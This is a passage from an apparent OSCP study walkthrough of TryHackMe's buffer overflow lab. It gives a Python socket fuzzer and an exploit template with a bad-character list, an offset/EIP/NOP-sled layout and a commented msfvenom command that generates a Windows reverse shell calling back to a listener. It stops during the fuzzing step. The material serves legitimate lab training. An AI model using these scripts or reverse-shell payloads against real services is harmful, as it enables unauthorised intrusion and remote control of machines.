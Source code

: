 ```yaml
---
description: Walkthrough of OSCP Buffer Overflow
---
```


# OSCP BOF

For this section I will be using the buffer overflow room from TryHackMe. Good room for practicing the OSCP BOF.&#x20;

{% embed url="https://tryhackme.com/room/bufferoverflowprep" %}

## Pre-Exploit

Before starting, I have some scripts that would help the exploit process a lot. One for fuzzing and finding when the program crashes, and the next for the actual exploit itself.

{% code title="fuzzer.py" overflow="wrap" %}
```python
#!/usr/bin/python
import time, struct, sys
import socket as so


# Create an array of buffers, from 1 to 1000 elements, with increments of 200 bytes each.
buff=["A"]
# max number of buffers in the array
max_buffer = 1000
# initial value of the counter
counter=100
# increment value
increment=200

while len(buff) <= max_buffer:
    buff.append("A"*counter)
    counter=counter+increment

for string in buff:
    try:
        server = sys.argv[1]
        port = sys.argv[2]
    except IndexError:
        print "[+] Usage %s host + port " % sys.argv[0]
        sys.exit()

    print "Fuzzing with %s bytes" % len(string)
    s = so.socket(so.AF_INET, so.SOCK_STREAM)
    try:
        s.connect((server, port))
        print s.recv(1024)
        s.send( string+'\r\n')
        s.send('exit\r\n')
        print s.recv(1024)
    except:
        print "[!] connection refused, check debugger"
        sys(exit)
```
{% endcode %}

<pre class="language-python" data-title="exploit.py" data-overflow="wrap"><code class="lang-python">#!/usr/bin/python2

import socket

ip = ""
port = 
timeout = 5

prefix = "OVERFLOW2 " # this prefix is required for the TryHackMe Bof room, not required in others.
#pattern = ""
#badchars = (
 # "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
 # "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
 # "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
 # "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
<strong> # "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
</strong> # "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
 # "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
 # "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
 # "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
 # "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
 # "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
 # "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
 # "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
 # "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
 # "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
 # "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
# )
# final badchars are 

# msfvenom -p windows/shell_reverse_tcp LHOST=10.4.67.186 LPORT=4444 EXITFUNC=thread -b "" -f c -v payload 
# msfvenom -p windows/exec CMD=calc.exe -b "" -f c -v payload
print ("\nSending evil buffer...")
size = 
offset = "A"*size #filler
eip = "" #rtn
nop = "\x90" * 16
payload =("")  #shellcode here

#buffer = prefix + pattern  #for fuzzing offset
#buffer = prefix + offset + badchars #for fuzzing bad chars
# buffer = prefix + offset + eip + nop + payload 

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,port))
s.send(bytes(buffer + "\r\n", "latin-1"))
s.close()
print ("\nDone!")

</code></pre>

`exploit.py` has loads of empty spaces for the user to fill, such as the pattern generated by MSF, IP and Port, as well as the bad characters (which I normally copy and paste and edit as I go along).

Lastly, you would need to have **Immunity Debugger on a Windows VM** for this before starting. The malicious binary would be opened and debugged there.

{% embed url="https://www.immunityinc.com/products/debugger/" %}

## Fuzzing

First we need to fuzz the application to test at what character it will crash at. For OVERFLOW 2 of this room, it was after 700 bytes of data were sent.

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

If we take a look at Immunity Debugger, the register window would look like this:

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

The EIP is filled with \x41 (which translates back to "A")
